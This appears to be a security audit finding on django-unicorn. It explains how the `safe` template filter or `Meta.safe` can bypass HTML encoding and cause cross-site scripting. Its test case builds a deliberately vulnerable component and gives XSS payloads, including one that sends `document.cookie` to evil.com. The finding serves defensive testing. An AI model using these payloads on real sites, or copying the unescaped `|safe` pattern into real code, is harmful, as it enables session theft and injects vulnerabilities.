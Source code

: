 #### 1. Potential Cross-Site Scripting (XSS) vulnerability due to unsanitized user inputs in dynamically updated DOM

- Description:
    1. A user interacts with a django-unicorn component, providing input through form fields or triggering actions.
    2. This input is sent to the Django backend via an AJAX request to the `message` view.
    3. The `message` view in `views/__init__.py` processes the request using `_handle_component_request` and `_process_component_request`.
    4. User input is processed in `_process_component_request` within action handlers like `sync_input.handle` and `call_method.handle` to update component's properties using `set_property_value` and `set_property_from_data`.
    5. The component re-renders its template using `UnicornTemplateResponse.render()` in `components/unicorn_template_response.py`.
    6. `UnicornTemplateResponse.render()` uses `BeautifulSoup` to parse and modify the rendered HTML, adding `unicorn:` attributes.
    7. The re-rendered HTML is sanitized using `UnicornTemplateResponse._desoupify()` which in turn uses `soup.encode(formatter=UnsortedAttributes()).decode("utf-8")`. `UnsortedAttributes` inherits from `HTMLFormatter` in `bs4` and uses `entity_substitution=EntitySubstitution.substitute_html`. This performs HTML entity encoding, which should prevent basic XSS.
    8. The sanitized HTML is sent back to the client in a JSON response.
    9. The client-side JavaScript library dynamically updates the DOM with the received HTML.
    10. **However, if `mark_safe` filter or `safe` method is used within Django templates, or if developer explicitly marks content as safe using `sanitize_html` in python code and then uses `safe` template filter, then user input might bypass sanitization and lead to XSS.**

- Impact:
    - Cross-Site Scripting (XSS) allows an attacker to execute arbitrary JavaScript code in the victim's browser.
    - This can lead to various malicious actions, including:
        - Account hijacking by stealing session cookies or credentials.
        - Defacement of the website by altering content.
        - Redirection of users to malicious websites.
        - Data theft by accessing sensitive information displayed on the page.
        - Execution of actions on behalf of the user without their consent.

- Vulnerability Rank: High

- Currently Implemented Mitigations:
    - HTML entity encoding is applied to the rendered HTML before sending it to the client using `BeautifulSoup` and `UnsortedAttributes` formatter in `UnicornTemplateResponse._desoupify()` and `sanitize_html` in `utils.py`. The `test_sanitize_html` test in `tests/test_utils.py` confirms this encoding.
    - Changelog mentions security fixes for XSS vulnerabilities in versions 0.36.0 and 0.36.1, indicating past efforts to address XSS.
    - Documentation for version 0.36.0 highlights HTML encoding as a mitigation and introduces the `safe` template filter for developers to opt-out of encoding when necessary.
    - Tests in `tests/views/test_process_component_request.py` (`test_html_entities_encoded`) demonstrate that by default, HTML entities are encoded.

- Missing Mitigations:
    - While HTML encoding is in place, the project relies on developers to use the `safe` template filter or `Meta.safe` component attribute judiciously. Misuse or incorrect application of `safe` can re-introduce XSS vulnerabilities.
    - It is not clear if there are specific guidelines or documentation to educate developers on the secure usage of `safe` and potential risks of bypassing automatic sanitization.
    - Client-side sanitization is not explicitly mentioned or evident in the provided files. While backend sanitization is crucial, client-side sanitization can offer an additional layer of defense against DOM-based XSS, although django-unicorn primarily focuses on backend rendering.

- Preconditions:
    - The application must be using django-unicorn components to render dynamic content.
    - An attacker needs to find a component that renders user-controlled input, where the developer has used `safe` filter or `Meta.safe` attribute, or in general bypassed or missed sanitization, allowing the injection of malicious JavaScript code.

- Source Code Analysis:
    - **`utils.py:sanitize_html(html: str) -> SafeText`**: This function escapes HTML characters using `html.translate(_json_script_escapes)`. This is a standard HTML escaping mechanism. Tests in `tests/test_utils.py` confirm this function encodes `<script>` tags.
    - **`components/unicorn_template_response.py:UnicornTemplateResponse._desoupify(soup)`**: This method encodes the BeautifulSoup object using `soup.encode(formatter=UnsortedAttributes()).decode("utf-8")`. `UnsortedAttributes` uses `HTMLFormatter` with `entity_substitution=EntitySubstitution.substitute_html`, enforcing HTML entity encoding. The `test_desoupify` test in `tests/components/test_unicorn_template_response.py` shows how HTML is encoded using this method.
    - **`components/unicorn_template_response.py:UnicornTemplateResponse.render()`**: Renders the component, uses `BeautifulSoup` to parse and modify HTML, then calls `_desoupify()` for sanitization. The sanitized HTML is the response content.
    - **`templatetags/unicorn.py`**: Entry point for rendering components, but doesn't directly handle sanitization.
    - **`views/__init__.py:_process_component_request()`**: Orchestrates component lifecycle, including rendering and sanitization, without bypassing sanitization itself.
    - **`tests/views/test_process_component_request.py:test_html_entities_encoded`**: This test explicitly verifies that by default, user input is HTML entity encoded, preventing basic XSS when `syncInput` is used.
    - **`tests/views/test_process_component_request.py:test_safe_html_entities_not_encoded`**: This test confirms that when using `Meta.safe` in a component, HTML entities are NOT encoded, demonstrating the bypass of sanitization and potential for XSS if `safe` is misused.
    - **`tests/views/utils/test_set_property_from_data.py`**: Tests confirm that user-provided data is used to set component properties, which is part of the XSS attack vector when combined with the `safe` filter.

    **Vulnerable Code Snippet (Conceptual - Template with `safe` filter):**
    ```html+django
    {# vulnerable_component.html #}
    <div>
        Hello, {{ name|safe }}!
    </div>
    ```
    If `name` variable in the component is user-controlled and not sanitized, using `safe` filter in the template will bypass django-unicorn's default sanitization and lead to XSS.

- Security Test Case:
    1. **Create a vulnerable django-unicorn component:**
        ```python
        # example/unicorn/components/vulnerable_component.py
        from django_unicorn.components import UnicornView

        class VulnerableComponentView(UnicornView):
            input_value = ""

            def set_input_value(self, value):
                self.input_value = value
        ```
        ```html+django
        {# example/unicorn/templates/unicorn/vulnerable_component.html #}
        <div>
            <input type="text" unicorn:model="input_value" unicorn:change="set_input_value">
            <div id="output">
                {{ input_value|safe }}  {# Vulnerable because of 'safe' filter #}
            </div>
        </div>
        ```

    2. **Create a view to render the vulnerable component:**
        ```python
        # example/www/views.py
        from django.shortcuts import render
        from example.unicorn.components.vulnerable_component import VulnerableComponentView

        def vulnerable_view(request):
            return render(request, 'www/vulnerable_page.html', {"component_name": "vulnerable-component"})
        ```
        ```html+django
        {# example/www/templates/www/vulnerable_page.html #}
        {% load unicorn %}
        <!DOCTYPE html>
        <html>
        <head>
            <title>Vulnerable Page</title>
            {% unicorn_scripts %}
        </head>
        <body>
            <h1>Vulnerable Unicorn Component</h1>
            {% unicorn component_name %}
        </body>
        </html>
        ```

    3. **Add URL to `urls.py`:**
        ```python
        # example/project/urls.py
        from django.urls import path
        from example.www.views import vulnerable_view

        urlpatterns = [
            # ... other urls
            path("vulnerable", vulnerable_view, name="vulnerable_view"),
        ]
        ```

    4. **Run the Django development server.**

    5. **Access the vulnerable page in a browser (e.g., `http://127.0.0.1:8000/vulnerable`).**

    6. **In the input field, enter the following XSS payload: `<script>alert('XSS Vulnerability!')</script>`**

    7. **Click out of the input field or trigger the `unicorn:change` event.**

    8. **Observe if an alert box appears in the browser.** If the alert box appears, it confirms the XSS vulnerability because the JavaScript code was executed due to the `safe` filter bypassing HTML encoding.

    9. **For a more robust test, try to steal cookies or redirect to a malicious site using JavaScript instead of `alert()`.** For example: `<script>window.location.href='http://evil.com/?cookie='+document.cookie;</script>`

This test case demonstrates how using `safe` filter without proper sanitization of user inputs in django-unicorn templates can lead to XSS vulnerabilities, even with the library's default HTML encoding in place. Developers need to be extremely cautious when using `safe` and ensure that any data marked as safe is indeed safe and does not originate from untrusted user input or is properly sanitized before using `safe`.
